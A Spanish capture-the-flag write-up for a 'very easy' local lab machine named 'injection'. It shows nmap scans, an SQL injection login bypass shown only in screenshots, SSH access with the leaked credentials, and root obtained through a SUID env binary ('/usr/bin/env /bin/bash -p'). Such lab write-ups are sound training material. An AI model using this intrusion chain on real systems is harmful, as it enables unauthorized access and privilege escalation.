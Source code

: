 # Maquina injention

- Nivel: Muy fácil

## Escaneo de puertos

<p>Tras encender la máquina lo primero que haremos será un ping para comprobar que todo esta correcto</p>

'''
ping -c1 172.17.0.2

'''

'''

PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms

'''

<p>Como podemos observar la máquina esta encendida, por el TTL se puede intuir que es una máquina Linux</p>

<p>Con esto comprobado procedemos a realizar el primer escaneo con nmap</p>

'''

sudo nmap -p- --open -sS -vvv -Pn 172.17.0.2

'''

'''

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:03 CET
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:03
Completed Parallel DNS resolution of 1 host. at 00:03, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 1.42s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-06 00:03:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
           
'''

<p>El escaneo nos reporta que los puertos 22 y 80 estan abiertos lo cual puede ser un indicativo de que hay una página web corriendo en la máquina</p>
<p>Realizamos un segundo escaneo de esos puertos para obtener información mas detallada</p>

'''

sudo nmap -p 22,80 -sV -vvv -Pn 172.17.0.2

'''

'''

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:06 CET
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 00:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:06, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:06
Completed Parallel DNS resolution of 1 host. at 00:06, 6.52s elapsed
DNS resolution of 1 IPs took 6.52s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:06
Scanning 172.17.0.2 [2 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:06, 0.02s elapsed (2 total ports)
Initiating Service scan at 00:06
Scanning 2 services on 172.17.0.2
Completed Service scan at 00:06, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000042s latency).
Scanned at 2025-02-06 00:06:29 CET for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)
           
'''

<p>Este escaneo nos reporta que estamos ante una máquina Ubuntu la cual corre un Apache 2.4.52</p>




## Pagina Web

<p>Introducimos la IP de la máquina en el navegador y nos lleva a la siguiente página</p>

![captura_injection_1](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-17-24.png)

<p>Podemos observar que es una página de inicio de sesión</p>
<p>Probamos una inyección SQL</p>

![captura_injection_2](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-24-24.png)

<p>La página es vulnerable a SQL Injection, nos muestra el siguiente resultado </p>

![captura_injection_3](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-26-15.png)

<p>Nos da un nombre de usuario y una contraseña</p>

## Conexión por ssh
<p>Aprovechando este nombre y contraseña tratamos de conectarnos por ssh</p>

'''

ssh dylan@172.17.0.2

'''

'''

dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Feb  5 23:25:00 2025 from 172.17.0.1
dylan@7af8994eca56:~$ 

'''
<p>Ha funcionado, tenemos una conexión ssh con la máquina</p>

## Escalada de privilegios

Comprobamos que somos el usuario dylan

'''

whoami

'''

'''

dylan

'''

<p>Buscamos los programas sobre los que tenemos privilegios</p>

'''

sudo -l

'''

'''

-bash: sudo: command not found

'''

<p>Probamos otra forma de busqueda</p>

<p>Buscamos todos los archivos con permiso SUID y cuyo usuario sea root de forma que al ejecutarse lo hagan como este</p>
'''

find / -perm -4000 -user root 2>/dev/null

'''

'''

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/env
/usr/bin/chfn

'''

<p>De estos archivos podemos destacar /usr/bin/env el cual se utiliza para ejecutar un programa con variables de entorno personalizadas</p>
<p>Probamos a ejecutar /bin/bash con /bin/env de forma que al cumplir con las caracteristicas mencionadas anteriormente debería devolver una bash con permisos de root</p>

'''

/usr/bin/env /bin/bash -p

'''

'''

bash-5.1# whoami
root

'''
